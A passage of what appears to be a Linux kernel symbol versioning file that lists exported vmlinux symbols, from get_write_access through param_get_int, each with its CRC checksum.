    vmlinux get_write_access 0x3f0f82c6
    vmlinux get_zeroed_page 0x2c2512ea
    vmlinux getname 0x7c60d66e
    vmlinux getnstimeofday 0xa7c35c6b
    vmlinux getnstimestamp 0x7e36a99e
    vmlinux give_up_console 0x78215f0d
    vmlinux global_flush_tlb 0x3167ea19
    vmlinux gnet_stats_copy_app 0x69eced7e
    vmlinux gnet_stats_copy_basic 0xe8225dd5
    vmlinux gnet_stats_copy_queue 0x831bd453
    vmlinux gnet_stats_copy_rate_est 0x230d9c16
    vmlinux gnet_stats_finish_copy 0x686b1e25
    vmlinux gnet_stats_start_copy 0x175c6178
    vmlinux gnet_stats_start_copy_compat 0x4c968d31
    vmlinux grab_cache_page_nowait 0x9d4a15cc
    vmlinux groups_alloc 0x51cd47e2
    vmlinux groups_free 0x111bcb2c
    vmlinux half_md4_transform 0x6def2db2
    vmlinux handle_sysrq 0xdbdcc4cf
    vmlinux have_submounts 0x0566a2fd
    vmlinux high_memory 0x8a7d1c31
    vmlinux hippi_type_trans 0x0e1dcf27
    vmlinux hpet_alloc 0x686f1325
    vmlinux hpet_control 0x1de314f3
    vmlinux hpet_register 0x741f1f6e
    vmlinux hpet_unregister 0x63dfe1b4
    vmlinux hwmon_device_register 0x700025c0
    vmlinux hwmon_device_unregister 0x5cc020a1
    vmlinux i8253_lock 0x242c2398
    vmlinux icmp_err_convert 0xc998d641
    vmlinux icmp_send 0x5f29030c
    vmlinux icmp_statistics 0x5dab0ad2
    vmlinux ide_acpi_exec_tfs 0x0743411e
    vmlinux ide_acpi_get_timing 0x83d03926
    vmlinux ide_acpi_init 0xa62cccca
    vmlinux ide_acpi_push_timing 0xc8f46a92
    vmlinux ide_add_setting 0x72e86c62
    vmlinux ide_build_dmatable 0x3f603381
    vmlinux ide_build_sglist 0x697ec0cf
    vmlinux ide_bus_type 0xbf52ba06
    vmlinux ide_config_drive_speed 0xdb6d3930
    vmlinux ide_destroy_dmatable 0x71bc61ae
    vmlinux ide_dma_enable 0x8ca15d11
    vmlinux ide_dma_intr 0x3bf5a915
    vmlinux ide_dma_setup 0xee80399e
    vmlinux ide_dma_speed 0xbca38272
    vmlinux ide_dma_start 0xa544c55b
    vmlinux ide_dma_verbose 0xb25ffd47
    vmlinux ide_do_drive_cmd 0xbb9a26bc
    vmlinux ide_do_reset 0xc439ef4a
    vmlinux ide_dump_status 0x424ab17d
    vmlinux ide_end_drive_cmd 0xae101873
    vmlinux ide_end_request 0xbddc6c54
    vmlinux ide_error 0x36dee7fe
    vmlinux ide_execute_command 0x79a75b65
    vmlinux ide_fix_driveid 0x824fa796
    vmlinux ide_fixstring 0x4101a975
    vmlinux ide_get_best_pio_mode 0x2f31179e
    vmlinux ide_get_error_location 0xbcf29c84
    vmlinux ide_hwifs 0xa99283af
    vmlinux ide_in_drive_list 0x3747fe2f
    vmlinux ide_init_disk 0xe908a190
    vmlinux ide_init_drive_cmd 0x2ae7f85e
    vmlinux ide_init_sg_cmd 0x1334e16b
    vmlinux ide_lock 0xb0e42262
    vmlinux ide_map_sg 0xa319e6bf
    vmlinux ide_pci_create_host_proc 0x5a302432
    vmlinux ide_pci_setup_ports 0xfe636afe
    vmlinux ide_pci_unregister_driver 0x0bd675de
    vmlinux ide_pio_timings 0x4186676c
    vmlinux ide_rate_filter 0x8691989a
    vmlinux ide_raw_taskfile 0x451ffa8c
    vmlinux ide_register_hw 0x40933217
    vmlinux ide_register_hw_with_fixup 0xa1789c18
    vmlinux ide_register_region 0x75661fac
    vmlinux ide_register_subdriver 0xe08600ad
    vmlinux ide_set_handler 0xf61b4602
    vmlinux ide_set_xfer_rate 0xe2548674
    vmlinux ide_setup_dma 0x843a8008
    vmlinux ide_setup_pci_device 0x361e1803
    vmlinux ide_setup_pci_devices 0x75619235
    vmlinux ide_setup_pci_noise 0x5e7281cf
    vmlinux ide_spin_wait_hwgroup 0x08678f8e
    vmlinux ide_stall_queue 0x05ca3aa9
    vmlinux ide_undecoded_slave 0x6c35ca64
    vmlinux ide_unregister 0x0c486b72
    vmlinux ide_unregister_region 0xa74d0537
    vmlinux ide_unregister_subdriver 0x659a4b7f
    vmlinux ide_use_dma 0x0b0c9dc5
    vmlinux ide_wait_not_busy 0x86d373e2
    vmlinux ide_wait_stat 0x345bc99d
    vmlinux ide_xfer_verbose 0xe2daeb0a
    vmlinux ideprobe_init 0xec7f1697
    vmlinux idr_destroy 0x9dbf1158
    vmlinux idr_find 0xf6a98ae7
    vmlinux idr_get_new 0x2d29e50a
    vmlinux idr_get_new_above 0x1421a04c
    vmlinux idr_init 0xb6ff27a7
    vmlinux idr_pre_get 0x52a7207f
    vmlinux idr_remove 0xa7409aaf
    vmlinux iget5_locked 0x848074d7
    vmlinux iget_locked 0xac98a3e5
    vmlinux igrab 0x3720b107
    vmlinux ilookup 0xd683990d
    vmlinux ilookup5 0x5c626eb5
    vmlinux ilookup5_nowait 0xd737e54d
    vmlinux in_aton 0x83e0a162
    vmlinux in_dev_finish_destroy 0xc1708f92
    vmlinux in_egroup_p 0xd8a2ab95
    vmlinux in_group_p 0xc3cf1128
    vmlinux in_lock_functions 0x09d44df9
    vmlinux inet6_lookup 0x474583c1
    vmlinux inet6_lookup_listener 0x4b2bc1a1
    vmlinux inet_accept 0xcd17e5bd
    vmlinux inet_add_protocol 0x93787a00
    vmlinux inet_addr_type 0xe8cf3ae7
    vmlinux inet_bind 0x0c3e1a45
    vmlinux inet_bind_bucket_create 0xa36f819b
    vmlinux inet_bind_hash 0xf1d8aa6e
    vmlinux inet_csk_accept 0xfef7abad
    vmlinux inet_csk_clear_xmit_timers 0x3284904e
    vmlinux inet_csk_clone 0x33b2d61f
    vmlinux inet_csk_delete_keepalive_timer 0x44feeb1a
    vmlinux inet_csk_destroy_sock 0x201d40cd
    vmlinux inet_csk_get_port 0xc16ce78b
    vmlinux inet_csk_init_xmit_timers 0x5e65ccb7
    vmlinux inet_csk_listen_start 0x221d6711
    vmlinux inet_csk_listen_stop 0x0b711458
    vmlinux inet_csk_reqsk_queue_hash_add 0x5e835514
    vmlinux inet_csk_reqsk_queue_prune 0x11a399fd
    vmlinux inet_csk_reset_keepalive_timer 0xe9b9c7ee
    vmlinux inet_csk_route_req 0x1467d1b5
    vmlinux inet_csk_search_req 0x8ec804cb
    vmlinux inet_csk_timer_bug_msg 0x0422fe4a
    vmlinux inet_del_protocol 0x2a4be09d
    vmlinux inet_dgram_connect 0xc00b4a46
    vmlinux inet_dgram_ops 0xdb9614f6
    vmlinux inet_diag_register 0x893499ec
    vmlinux inet_diag_unregister 0xf1e49879
    vmlinux inet_getname 0x03e8e128
    vmlinux inet_ioctl 0x4181136a
    vmlinux inet_listen 0x3ae4fe06
    vmlinux inet_listen_wlock 0xa63eaa1c
    vmlinux inet_put_port 0xc8ae8288
    vmlinux inet_register_protosw 0xaecb0de9
    vmlinux inet_release 0x08b7844e
    vmlinux inet_select_addr 0x2b99106b
    vmlinux inet_sendmsg 0xaae58c1a
    vmlinux inet_shutdown 0x2d5c5910
    vmlinux inet_sk_rebuild_header 0xe3b80816
    vmlinux inet_sock_destruct 0x3113d51c
    vmlinux inet_stream_connect 0x16c72f25
    vmlinux inet_stream_ops 0xc6ee6872
    vmlinux inet_twdr_hangman 0xcc1f1c3d
    vmlinux inet_twdr_twcal_tick 0x1fcece42
    vmlinux inet_twdr_twkill_work 0xfbb469aa
    vmlinux inet_twsk_alloc 0x5c3687b1
    vmlinux inet_twsk_deschedule 0xf9f0fef2
    vmlinux inet_twsk_schedule 0xdf3c3de7
    vmlinux inet_unregister_protosw 0xf87dbbe3
    vmlinux inetdev_by_index 0xa1c4d739
    vmlinux init_buffer 0xbd47e08b
    vmlinux init_mm 0x00a6488f
    vmlinux init_special_inode 0x6e9974ef
    vmlinux init_task 0x12878aa0
    vmlinux init_timer 0xd5e8dba8
    vmlinux inode_add_bytes 0x0c4829e0
    vmlinux inode_change_ok 0x05e64be7
    vmlinux inode_get_bytes 0x3edbc170
    vmlinux inode_init_once 0x6fe3efb2
    vmlinux inode_needs_sync 0x9f1b39df
    vmlinux inode_set_bytes 0xe536e052
    vmlinux inode_setattr 0x238628a5
    vmlinux inode_sub_bytes 0x7c918d4d
    vmlinux inode_update_time 0xa4be07a3
    vmlinux inotify_dentry_parent_queue_event 0xe8a07c2d
    vmlinux inotify_get_cookie 0x00566d8f
    vmlinux inotify_inode_is_dead 0x679924ff
    vmlinux inotify_inode_queue_event 0xf8be3827
    vmlinux inotify_unmount_inodes 0xa5c36cec
    vmlinux input_accept_process 0xc8d7cf07
    vmlinux input_allocate_device 0xb8bdd55f
    vmlinux input_class 0x69f996b9
    vmlinux input_close_device 0x7f0d40a3
    vmlinux input_event 0xdb54d0bc
    vmlinux input_flush_device 0xfe8cbff6
    vmlinux input_grab_device 0x47bcd04e
    vmlinux input_open_device 0x4c018701
    vmlinux input_register_device 0xadb37246
    vmlinux input_register_handler 0xc1e911f6
    vmlinux input_release_device 0x079ea890
    vmlinux input_unregister_device 0xd7156433
    vmlinux input_unregister_handler 0xec43aca1
    vmlinux insert_resource 0xdc3992ac
    vmlinux install_page 0x94892ba1
    vmlinux int_sqrt 0xb678366f
    vmlinux inter_module_get_request 0x0b6690b8
    vmlinux inter_module_put 0xba54631c
    vmlinux inter_module_register 0x8e96b66d
    vmlinux inter_module_unregister 0x4b569905
    vmlinux interruptible_sleep_on 0xa3e9fd5e
    vmlinux interruptible_sleep_on_timeout 0x8e334f2b
    vmlinux invalidate_bdev 0xf59b5fb6
    vmlinux invalidate_inode_pages 0x75b5d983
    vmlinux invalidate_inode_pages2 0x5b2c91c8
    vmlinux invalidate_inode_pages2_range 0xaf5c0f81
    vmlinux invalidate_inodes 0x28985357
    vmlinux invalidate_partition 0x06d9ccdd
    vmlinux io_schedule 0x93a6e0b2
    vmlinux ioctl_by_bdev 0x2c2f5e8f
    vmlinux iomem_resource 0x9efed5af
    vmlinux ioport_map 0x594bf15b
    vmlinux ioport_resource 0x865ebccd
    vmlinux ioport_unmap 0xfc39e32f
    vmlinux ioread16 0x03960713
    vmlinux ioread16_rep 0x54324f95
    vmlinux ioread16be 0x06127753
    vmlinux ioread32 0x2241a928
    vmlinux ioread32_rep 0x3360bb18
    vmlinux ioread32be 0x0bce3753
    vmlinux ioread8 0x389e200f
    vmlinux ioread8_rep 0x27a72488
    vmlinux ioremap_nocache 0x3762cb6e
    vmlinux iounmap 0xedc03953
    vmlinux iov_shorten 0xc11d8093
    vmlinux iowrite16 0x4775eacf
    vmlinux iowrite16_rep 0x1eba9e49
    vmlinux iowrite16be 0x30343e46
    vmlinux iowrite32 0x908aa9b2
    vmlinux iowrite32_rep 0x2dbc755e
    vmlinux iowrite32be 0xa1a6414c
    vmlinux iowrite8 0x375bf494
    vmlinux iowrite8_rep 0x0b353626
    vmlinux ip4_datagram_connect 0xd47819e8
    vmlinux ip_build_and_send_pkt 0x5fcc5686
    vmlinux ip_cmsg_recv 0x2e55cf31
    vmlinux ip_ct_attach 0x832069fa
    vmlinux ip_defrag 0x1dfd3687
    vmlinux ip_fragment 0xe65b0edf
    vmlinux ip_generic_getfrag 0xee7d07a2
    vmlinux ip_getsockopt 0x1cef94b8
    vmlinux ip_mc_dec_group 0xc3bb3cee
    vmlinux ip_mc_inc_group 0x741f14c8
    vmlinux ip_mc_join_group 0xc27f7077
    vmlinux ip_queue_xmit 0x30270da8
    vmlinux ip_route_input 0x7428667a
    vmlinux ip_route_me_harder 0x06d7617d
    vmlinux ip_route_output_flow 0xd8f908eb
    vmlinux ip_route_output_key 0xeefb0d42
    vmlinux ip_rt_ioctl 0x94208e84
    vmlinux ip_send_check 0xa37b7441
    vmlinux ip_setsockopt 0x40348a9e
    vmlinux ip_statistics 0xcb19f6d6
    vmlinux iput 0x4a4b40dc
    vmlinux ipv4_config 0x26b99782
    vmlinux ipv4_specific 0x7132d1cf
    vmlinux ipv6_ext_hdr 0x8e0b7743
    vmlinux ipv6_skip_exthdr 0xe2c0c036
    vmlinux is_bad_inode 0x1aec133c
    vmlinux is_console_locked 0x944a564d
    vmlinux isa_bridge 0x880fd626
    vmlinux isa_dma_bridge_buggy 0xf82abc1d
    vmlinux isapnp_cfg_begin 0x770a0036
    vmlinux isapnp_cfg_end 0x28b715a6
    vmlinux isapnp_present 0xbf8b39e9
    vmlinux isapnp_protocol 0x7430aa8e
    vmlinux isapnp_write_byte 0xda8fd495
    vmlinux ist_info 0x0fdb1426
    vmlinux iunique 0x679ca50a
    vmlinux iw_handler_get_spy 0x7dc17464
    vmlinux iw_handler_get_thrspy 0xb9f7587e
    vmlinux iw_handler_set_spy 0x44719339
    vmlinux iw_handler_set_thrspy 0x07cd3303
    vmlinux jiffies 0x7d11c268
    vmlinux jiffies_64 0xe24d3a97
    vmlinux kallsyms_lookup_name 0xe007de41
    vmlinux kblockd_flush 0xf4216711
    vmlinux kblockd_schedule_work 0x2781a8f9
    vmlinux kern_mount 0xcef1bde2
    vmlinux kernel_fpu_begin 0xd986dad1
    vmlinux kernel_halt 0x054e550b
    vmlinux kernel_kexec 0xf76f067b
    vmlinux kernel_power_off 0xf184d189
    vmlinux kernel_read 0xe5fafb2e
    vmlinux kernel_recvmsg 0xbbea40bb
    vmlinux kernel_restart 0x1e7bbcb3
    vmlinux kernel_sendmsg 0x59b47e8d
    vmlinux kernel_subsys 0x2f8eabe5
    vmlinux kernel_thread 0x7e9ebb05
    vmlinux key_alloc 0x41d179a2
    vmlinux key_create_or_update 0x459db887
    vmlinux key_instantiate_and_link 0x59e434d5
    vmlinux key_link 0x7042f97c
    vmlinux key_negate_and_link 0x8e866cca
    vmlinux key_payload_reserve 0x6540169f
    vmlinux key_put 0x80b16ca8
    vmlinux key_revoke 0xf97a0fb9
    vmlinux key_task_permission 0x5ceb876e
    vmlinux key_type_user 0x28bb84b5
    vmlinux key_unlink 0xb7be0f3c
    vmlinux key_update 0xea7987f1
    vmlinux key_validate 0x4e5eadb0
    vmlinux keyring_clear 0xf4766438
    vmlinux keyring_search 0x5a50830e
    vmlinux kfifo_alloc 0x5cc5b658
    vmlinux kfifo_free 0x08a64e7c
    vmlinux kfifo_init 0xfa31cd3b
    vmlinux kfree 0x037a0cba
    vmlinux kick_iocb 0xfa5acbfd
    vmlinux kill_anon_super 0x47ad6c58
    vmlinux kill_block_super 0x7165f02c
    vmlinux kill_fasync 0xb538fd11
    vmlinux kill_litter_super 0x0a1bd396
    vmlinux kill_pg 0x38f29719
    vmlinux kill_proc 0x932da67e
    vmlinux kill_proc_info_as_uid 0xec10e63a
    vmlinux klist_add_head 0xe14bb3a2
    vmlinux klist_add_tail 0x8bd126f9
    vmlinux klist_del 0x7081deed
    vmlinux klist_init 0x83ba3c87
    vmlinux klist_iter_exit 0x5dbca5b8
    vmlinux klist_iter_init 0xba799312
    vmlinux klist_iter_init_node 0xee8c66d5
    vmlinux klist_next 0x0d1a949b
    vmlinux klist_node_attached 0x1d1ee37c
    vmlinux klist_remove 0x88277446
    vmlinux km_new_mapping 0x958fb80d
    vmlinux km_policy_notify 0x3052cf2d
    vmlinux km_state_notify 0x1fba3c67
    vmlinux km_waitq 0x9b0f1de9
    vmlinux kmap 0xd354a46f
    vmlinux kmap_atomic 0x5d8880a9
    vmlinux kmap_atomic_to_page 0x3ed5fe24
    vmlinux kmap_high 0xf0e2d9ae
    vmlinux kmem_cache_alloc 0x90b9e5de
    vmlinux kmem_cache_create 0x32b64d3f
    vmlinux kmem_cache_destroy 0x6673f9fd
    vmlinux kmem_cache_free 0xc863ee73
    vmlinux kmem_cache_name 0x44a50c7d
    vmlinux kmem_cache_shrink 0x7d5ef11a
    vmlinux kmem_cache_size 0x7c8c7970
    vmlinux kmem_find_general_cachep 0xd6a51749
    vmlinux kobject_add 0xc9722ad4
    vmlinux kobject_del 0xaefad609
    vmlinux kobject_get 0xd1189332
    vmlinux kobject_hotplug 0x6a257918
    vmlinux kobject_init 0xde000ede
    vmlinux kobject_put 0xe0dcb32f
    vmlinux kobject_register 0xcef6780a
    vmlinux kobject_set_name 0x5ec5fd6c
    vmlinux kobject_uevent 0xd3211a4c
    vmlinux kobject_uevent_atomic 0x072c36b8
    vmlinux kobject_unregister 0x29371f10
    vmlinux kref_get 0x8a1203a9
    vmlinux kref_init 0x3ae831b6
    vmlinux kref_put 0xcff53400
    vmlinux kset_find_obj 0x34cdb243
    vmlinux kset_register 0x91ef4496
    vmlinux kset_unregister 0x83486f49
    vmlinux kstrdup 0xc499ae1e
    vmlinux kthread_bind 0xb68fbc35
    vmlinux kthread_create 0xc15526ee
    vmlinux kthread_should_stop 0xd2965f6f
    vmlinux kthread_stop 0xc88360ff
    vmlinux kthread_stop_sem 0xbc0c9153
    vmlinux kunmap 0x6007ffed
    vmlinux kunmap_atomic 0x43b40de7
    vmlinux kunmap_high 0x1618d9b2
    vmlinux kzalloc 0x1d10cdb2
    vmlinux laptop_mode 0x76d3cd60
    vmlinux lease_get_mtime 0x52f03ba3
    vmlinux lease_modify 0x33143787
    vmlinux linkwatch_fire_event 0xb322204d
    vmlinux ll_rw_block 0x8635098b
    vmlinux llc_add_pack 0x89eecd0e
    vmlinux llc_build_and_send_ui_pkt 0x691c0542
    vmlinux llc_mac_hdr_init 0x01d8652b
    vmlinux llc_remove_pack 0x38b92846
    vmlinux llc_sap_close 0x6e40e370
    vmlinux llc_sap_find 0xcc360fe7
    vmlinux llc_sap_list 0x52d7b2fd
    vmlinux llc_sap_list_lock 0x5f69c2db
    vmlinux llc_sap_open 0x46863120
    vmlinux llc_set_station_handler 0x6bc3e88d
    vmlinux llc_station_mac_sa 0x5c372971
    vmlinux load_nls 0x4fcfedd5
    vmlinux load_nls_default 0x7cc3d405
    vmlinux local_bh_enable 0x0799aca4
    vmlinux lock_cpu_hotplug 0xba813bd6
    vmlinux lock_cpu_hotplug_interruptible 0xdd7ee0f9
    vmlinux lock_kernel 0x5568be43
    vmlinux lock_may_read 0x0ba448ab
    vmlinux lock_may_write 0x460d720e
    vmlinux lock_rename 0x2e4ac432
    vmlinux lock_sock 0x4cadb8af
    vmlinux locks_copy_lock 0xd5745838
    vmlinux locks_init_lock 0xc234c1ab
    vmlinux locks_mandatory_area 0xa17cbe3c
    vmlinux locks_remove_posix 0xbf8a2a5b
    vmlinux lookup_create 0xc6e0566f
    vmlinux lookup_hash 0xc85e137d
    vmlinux lookup_instantiate_filp 0x39b76267
    vmlinux lookup_one_len 0xfb95e020
    vmlinux loopback_dev 0x4f606afb
    vmlinux loops_per_jiffy 0xba497f13
    vmlinux machine_id 0x69b4ab75
    vmlinux machine_real_restart 0x3da1b07a
    vmlinux make_8023_client 0x9d02d962
    vmlinux make_EII_client 0xed41a528
    vmlinux make_bad_inode 0x7908a064
    vmlinux malloc_sizes 0x5a70e903
    vmlinux mapping_tagged 0xb792a789
    vmlinux mark_buffer_async_write 0x6c069517
    vmlinux mark_buffer_dirty 0xad043749
    vmlinux mark_buffer_dirty_inode 0x031ee776
    vmlinux mark_info_dirty 0x4d662450
    vmlinux mark_mounts_for_expiry 0x064db9a5
    vmlinux mark_page_accessed 0x524b5d13
    vmlinux match_hex 0xad0413d4
    vmlinux match_int 0x4e3567f7
    vmlinux match_octal 0x815b5dd4
    vmlinux match_strcpy 0x8faaf828
    vmlinux match_strdup 0xc1d50464
    vmlinux match_token 0x86e9acae
    vmlinux max_cstate 0x93805374
    vmlinux max_mapnr 0x01139ffc
    vmlinux max_pfn 0xbe5149a0
    vmlinux may_umount 0xe42263f1
    vmlinux may_umount_tree 0x07a34418
    vmlinux mb_cache_create 0xfd686606
    vmlinux mb_cache_destroy 0xd5263820
    vmlinux mb_cache_entry_alloc 0x7260f9fe
    vmlinux mb_cache_entry_find_first 0x33f507e7
    vmlinux mb_cache_entry_find_next 0x79992626
    vmlinux mb_cache_entry_free 0xb4af668a
    vmlinux mb_cache_entry_get 0x34b1af4e
    vmlinux mb_cache_entry_insert 0xb58be140
    vmlinux mb_cache_entry_release 0x18e3178a
    vmlinux mb_cache_shrink 0xc50b5b92
    vmlinux mca_bus_type 0x258014a7
    vmlinux mca_device_claimed 0xaaa756fe
    vmlinux mca_device_read_pos 0xe7ab1ecd
    vmlinux mca_device_read_stored_pos 0x8dfaa5b0
    vmlinux mca_device_set_claim 0xb5d51157
    vmlinux mca_device_set_name 0x864087ab
    vmlinux mca_device_status 0x515f7969
    vmlinux mca_device_transform_ioport 0xc1933a4b
    vmlinux mca_device_transform_irq 0x9bbe71b9
    vmlinux mca_device_transform_memory 0x83f7eccb
    vmlinux mca_device_write_pos 0x8042803e
    vmlinux mca_find_adapter 0x5f1bd579
    vmlinux mca_find_unused_adapter 0xef3bd862
    vmlinux mca_is_adapter_used 0x05048b38
    vmlinux mca_mark_as_unused 0xd9c272aa
    vmlinux mca_mark_as_used 0x6b937ffb
    vmlinux mca_read_pos 0x5c68705b
    vmlinux mca_read_stored_pos 0xb2efb6be
    vmlinux mca_register_driver 0x78624ed6
    vmlinux mca_set_adapter_name 0xf2e74040
    vmlinux mca_unregister_driver 0xd2168d7e
    vmlinux mca_write_pos 0xaaebe34f
    vmlinux mem_map 0xc1c7a799
    vmlinux memcmp 0x5152e605
    vmlinux memcpy 0x2e60bace
    vmlinux memcpy_fromiovec 0x9fb3dd30
    vmlinux memcpy_fromiovecend 0x6e440b58
    vmlinux memcpy_toiovec 0x9ceb163c
    vmlinux memmove 0x8235805b
    vmlinux memparse 0x23f2d36f
    vmlinux mempool_alloc 0xcfaf79ba
    vmlinux mempool_alloc_slab 0x183fa88b
    vmlinux mempool_create 0xbe8a1485
    vmlinux mempool_create_node 0x31448a4a
    vmlinux mempool_destroy 0xe5077a8f
    vmlinux mempool_free 0x37a9798f
    vmlinux mempool_free_slab 0x8a99a016
    vmlinux mempool_resize 0x931d2521
    vmlinux memset 0x2bc95bd4
    vmlinux misc_deregister 0xa21cb58d
    vmlinux misc_register 0x6d9b534d
    vmlinux mmput 0x7327b18f
    vmlinux mnt_pin 0x929078d4
    vmlinux mnt_unpin 0xf11c3bd9
    vmlinux mntput_no_expire 0x7d973661
    vmlinux mod_reg_security 0x98d3b8a1
    vmlinux mod_timer 0x400a2c21
    vmlinux mod_unreg_security 0x65ef4ca8
    vmlinux module_add_driver 0x0415138e
    vmlinux module_refcount 0xcc3ffac0
    vmlinux module_remove_driver 0xa3240fca
    vmlinux monotonic_clock 0x9669ecc8
    vmlinux move_addr_to_kernel 0x5dfa4696
    vmlinux move_addr_to_user 0x38c99093
    vmlinux mpage_readpage 0x90320a46
    vmlinux mpage_readpages 0x5f6a63bc
    vmlinux mpage_writepage 0xa97b728f
    vmlinux mpage_writepages 0xfed47381
    vmlinux msleep 0xf9a482f9
    vmlinux msleep_interruptible 0xcc5005fe
    vmlinux mtrr_add 0x56179c5f
    vmlinux mtrr_del 0x272d394e
    vmlinux multipath_alg_register 0x2c2b210a
    vmlinux multipath_alg_unregister 0x36aa9038
    vmlinux n_tty_ioctl 0x911f868f
    vmlinux names_cachep 0x568258c2
    vmlinux neigh_add 0xdcd3de58
    vmlinux neigh_changeaddr 0x23cbfeee
    vmlinux neigh_compat_output 0xfdc6769e
    vmlinux neigh_connected_output 0x5b4f1536
    vmlinux neigh_create 0x923b6a9e
    vmlinux neigh_delete 0xfbc0fe49
    vmlinux neigh_destroy 0x7631cb00
    vmlinux neigh_dump_info 0xbd321aac
    vmlinux neigh_event_ns 0xc2acbba7
    vmlinux neigh_for_each 0x631f8641
    vmlinux neigh_ifdown 0x695d26fb
    vmlinux neigh_lookup 0x9bd5b1db
    vmlinux neigh_lookup_nodev 0x237c5f2f
    vmlinux neigh_parms_alloc 0x046e91f6
    vmlinux neigh_parms_release 0x0b7d7dd1
    vmlinux neigh_rand_reach_time 0x4188d439
    vmlinux neigh_resolve_output 0x19cf381e
    vmlinux neigh_seq_next 0x74bb42f6
    vmlinux neigh_seq_start 0xbde30c0b
    vmlinux neigh_seq_stop 0x265efd73
    vmlinux neigh_sysctl_register 0x6b58c4c4
    vmlinux neigh_sysctl_unregister 0x79a43c38
    vmlinux neigh_table_clear 0x3e81275d
    vmlinux neigh_table_init 0xf8e7bf9e
    vmlinux neigh_update 0xdbb00cf5
    vmlinux neigh_update_hhs 0x7f3c6316
    vmlinux neightbl_dump_info 0x73abd85b
    vmlinux neightbl_set 0xd37ec046
    vmlinux net_disable_timestamp 0x199ed0cd
    vmlinux net_enable_timestamp 0x54e6fcdd
    vmlinux net_random 0x1c66f64c
    vmlinux net_ratelimit 0xf6ebc03b
    vmlinux net_srandom 0xff963ed8
    vmlinux net_statistics 0x0ded1ee1
    vmlinux netdev_boot_setup_check 0x1b228c93
    vmlinux netdev_features_change 0xf229aa2b
    vmlinux netdev_rx_csum_fault 0x0acf9437
    vmlinux netdev_set_master 0x0f402cdf
    vmlinux netdev_state_change 0x18fe14d4
    vmlinux netif_carrier_off 0x6dd6ac05
    vmlinux netif_carrier_on 0x205e4cfa
    vmlinux netif_receive_skb 0x9df14741
    vmlinux netif_rx 0xdb27ae40
    vmlinux netif_rx_ni 0x4a53dc59
    vmlinux netlink_ack 0x9dad1553
    vmlinux netlink_broadcast 0x6de1c4eb
    vmlinux netlink_dump_start 0xff962b1d
    vmlinux netlink_kernel_create 0xd9036ccb
    vmlinux netlink_queue_skip 0xbe8aff36
    vmlinux netlink_register_notifier 0xf78d04ab
    vmlinux netlink_run_queue 0x0a6dfc36
    vmlinux netlink_set_err 0x02c2ec9e
    vmlinux netlink_set_nonroot 0x5a744b86
    vmlinux netlink_unicast 0x4baab248
    vmlinux netlink_unregister_notifier 0xf338d4c3
    vmlinux netpoll_cleanup 0x5135da69
    vmlinux netpoll_parse_options 0x30024fa1
    vmlinux netpoll_poll 0x79e380d3
    vmlinux netpoll_queue 0xe84053c7
    vmlinux netpoll_send_udp 0xce98fdb1
    vmlinux netpoll_set_trap 0x612390ad
    vmlinux netpoll_setup 0x9a35b125
    vmlinux netpoll_trap 0x01902adf
    vmlinux new_inode 0xa3ce51e8
    vmlinux next_thread 0xaa31e49a
    vmlinux nf_ct_attach 0x76534ee8
    vmlinux nf_getsockopt 0x19cbe652
    vmlinux nf_hook_slow 0xba81876f
    vmlinux nf_hooks 0x078b1fd2
    vmlinux nf_log_packet 0xd0b16149
    vmlinux nf_log_register 0xc8a8bbd7
    vmlinux nf_log_unregister_logger 0xa3986c32
    vmlinux nf_log_unregister_pf 0x76b45850
    vmlinux nf_register_hook 0x4c4b5784
    vmlinux nf_register_queue_handler 0x3064a257
    vmlinux nf_register_queue_rerouter 0x8d6e79c4
    vmlinux nf_register_sockopt 0x0e001db8
    vmlinux nf_reinject 0x062a0cf4
    vmlinux nf_setsockopt 0x039ce9d5
    vmlinux nf_unregister_hook 0x30852f15
    vmlinux nf_unregister_queue_handler 0x4df6e6de
    vmlinux nf_unregister_queue_handlers 0x1aaa9e07
    vmlinux nf_unregister_queue_rerouter 0xbd2d65a6
    vmlinux nf_unregister_sockopt 0x088c3045
    vmlinux nla_find 0x444779c4
    vmlinux nla_memcmp 0xbe0e5118
    vmlinux nla_memcpy 0xb60e34a8
    vmlinux nla_parse 0x3c26dcdd
    vmlinux nla_put 0x0a5d944f
    vmlinux nla_reserve 0x0d0b6931
    vmlinux nla_strcmp 0xedbaee5e
    vmlinux nla_strlcpy 0x6cdc5c6b
    vmlinux nla_validate 0x2cc98162
    vmlinux nmi_active 0x069dcda8
    vmlinux nmi_watchdog 0xda928914
    vmlinux no_llseek 0x82fe6063
    vmlinux noautodma 0x70022241
    vmlinux nobh_commit_write 0x8fecbe12
    vmlinux nobh_prepare_write 0xaa7eedae
    vmlinux nobh_truncate_page 0x3067754b
    vmlinux nobh_writepage 0x8e7bc9e0
    vmlinux node_online_map 0x5a8f421e
    vmlinux node_possible_map 0xca0d27a1
    vmlinux nonseekable_open 0xbff54f3a
    vmlinux noop_qdisc 0xade7eb99
    vmlinux noop_qdisc_ops 0xf5da6fea
    vmlinux notifier_call_chain 0x28846962
    vmlinux notifier_chain_register 0x60cec3b9
    vmlinux notifier_chain_unregister 0xf099679c
    vmlinux notify_change 0x433ea326
    vmlinux nr_free_pages 0x0d0da68d
    vmlinux nr_pagecache 0x7c20e14f
    vmlinux num_physpages 0x0948cde9
    vmlinux num_registered_fb 0x6c61ce70
    vmlinux oops_in_progress 0xb1c3a01a
    vmlinux open_bdev_excl 0xfa409401
    vmlinux open_by_devnum 0x65accd73
    vmlinux open_exec 0x8ca04f14
    vmlinux open_softirq 0xedb042bd
    vmlinux out_of_line_wait_on_bit 0x09aeaf8c
    vmlinux out_of_line_wait_on_bit_lock 0xe868af29
    vmlinux overflowgid 0x7171121c
    vmlinux overflowuid 0x8b618d08
    vmlinux p80211_resume 0xacd34929
    vmlinux p80211_suspend 0x84b49ec1
    vmlinux p80211netdev_hwremoved 0x3ac7e7e7
    vmlinux p80211netdev_rx 0x4a06e096
    vmlinux p80211skb_free 0xc31fce31
    vmlinux p80211skb_rxmeta_attach 0xcc30b7c8
    vmlinux page_address 0x1855c4c2
    vmlinux page_follow_link_light 0x418e963d
    vmlinux page_put_link 0xf9a6b21e
    vmlinux page_readlink 0x6ee98e12
    vmlinux page_symlink 0x77cd387d
    vmlinux page_symlink_inode_operations 0x7278816b
    vmlinux pagevec_lookup_tag 0x40f880aa
    vmlinux panic 0x01075bf0
    vmlinux panic_blink 0x99ea12ce
    vmlinux panic_notifier_list 0x0d5eeb25
    vmlinux panic_timeout 0x1f8544b8
    vmlinux param_array_get 0x806d5133
    vmlinux param_array_set 0x89cef6fb
    vmlinux param_get_bool 0x5611e4ec
    vmlinux param_get_byte 0xf465b72a
    vmlinux param_get_charp 0xaa136450
    vmlinux param_get_int 0x89b301d4
